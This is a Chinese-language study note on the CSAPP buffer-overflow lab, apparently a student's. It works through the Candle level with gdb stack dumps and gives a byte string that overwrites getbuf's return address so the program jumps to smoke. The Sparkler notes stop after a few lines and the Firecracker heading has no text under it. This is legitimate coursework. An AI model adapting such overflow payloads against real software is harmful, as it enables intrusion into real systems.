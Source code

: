 ```yaml
---

类型: 笔记
创建日期: 2024-05-23
修改日期: 2024-05-23
---
```

## level 0 Candle
`(gdb) p/x &smoke`
`$1 = 0x8048e20`

单步调试机器指令 `stepi` `si`
```
Breakpoint 2, 0x08048ff1 in getbuf ()

(gdb)  info registers esp
esp            0xffffb070          0xffffb070
(gdb)  info registers ebp
ebp            0xffffb088          0xffffb088

(gdb) x/16xw $esp
0xffffb070:     0xffffb07c      0xf7ef8550      0x00000000      0x65646f77
0xffffb080:     0x0000616d      0x0804b5c0      0xffffb0a8    **0x0804901e**

(gdb) x/1xw $ebp
0xffffb0a8 
```
0x0804901e就是test中调用get_buf的下一条指令地址，要将其改为我们要的smoke地址0x8048e20，小端存储低地址在前。
我一直在想的是要保存好旧的ebp的那块区域，不然ebp无法正确返回到上一个栈。
想错了，ebp，esp中存放的是地址值，而我会覆盖的是地址值里的内容。
栈的扩张和收缩都是由ebp，esp（寄存器）传递自己内部保存的地址值整的，~~期间是不会去访问地址值内的内容的~~。（是会访问的，leave时要将旧ebp值弹回ebp，所以ebp里的值会出问题。
> leave：使栈做好返回准备，等价于
	mov %ebp，%esp
	pop %ebp

但是ret指令会把返回地址弹回esp，如果把此栈帧空间全部覆盖了，程序跳转是没问题的。**而且去下一个函数中执行时上来先push ebp，其实不会有影响**

要想覆盖掉返回地址，只需要看创建现在这个栈帧时分配了多大的空间，直接把对应得返回地址给覆盖了。


通过，构造字符串如下
`31 31 31 31 31 31 31 31 c0 b5 04 08 a8 b0 ff ff 1e 90 04 08`

```

Breakpoint 2, 0x08048fe6 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x00000000      0x00000004      0x0804b5c0      0xffffb0a8
0xffffb08c:     0x0804901e      0x00000003      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) c
Continuing.

Breakpoint 1, 0x08048ff1 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x04030201      0x08070605      0x12111009      0xffffb0a8
0xffffb08c:     0x08048e20      0x00000000      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) 
```
问题：上一个函数的传参3为什么也没了
解答：经过测试发现是最后还添加一个0x00，刚好覆盖了
## level 1 Sparkler
`fizz`函数地址`08048dc0`
函数中`8048dc7:	8b 5d 08  mov 0x8(%ebp),%ebx  ; 入参int val`
要在ebp + 8 位置放好字符串，下图展示如何确定此位置
![[B6E3A24C5F56A69DF646F52EF8BC9CAA.png]]

## Level 2 Firecracker
